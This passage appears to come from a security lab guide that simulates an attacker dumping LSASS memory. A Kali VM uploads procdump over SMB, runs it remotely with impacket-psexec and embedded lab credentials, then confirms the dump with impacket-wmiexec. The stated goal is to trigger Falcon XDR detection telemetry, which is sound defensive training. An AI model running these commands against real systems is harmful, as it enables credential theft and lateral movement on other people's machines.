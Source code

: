 5. In the SMB shell, upload the binary:
```
cd Windows\Temp
```

```
put /root/procdump.exe procdump.exe
```

```
exit
```

#### Screenshot of the commands
[Procdump Commands](/SOC_Escalation_Automated_Response/img/procdump_screen.png)

### Simulate LSASS Dump Remotely

**Objective:** Using Impacket’s psexec.py to remotely execute procdump.exe on the victim machine and simulate an LSASS memory dump. This mimics real attacker behavior and triggers Falcon XDR telemetry.

**Steps:**
1. Open the Kali Attacker VM.
2. Run the following command:

```
impacket-psexec 'threathunt/victim01:Lab@2025!User01@192.168.3.2' "C:\\Windows\\Temp\\procdump.exe -accepteula -ma lsass.exe C:\\Windows\\Temp\\lsass.dmp"
```

3. It might show as Output False, but even if LSASS dump is blocked, this triggers telemetry for Falcon XDR just like a real attacker would.

4. Or the expected output will be similar to:

```
[*] Requesting shares on 192.168.3.2.....
[*] Found writable share ADMIN$
[*] Uploading file jwXvUxEY.exe
[*] Opening SVCManager on 192.168.3.2.....
[*] Creating service WmKg on 192.168.3.2.....
[*] Starting service WmKg.....
[!] Press help for extra shell commands
```

### Confirm the LSASS Dump
**Objective:** Verify that the dump file was successfully created on the victim machine.

**Steps:**
1. From the Kali Attacker VM, run:
```
impacket-wmiexec 'threathunt/victim01:Lab@2025!User01@192.168.3.2' "powershell Test-Path C:\Windows\Temp\lsass.dmp"
```

2. Expected output: True
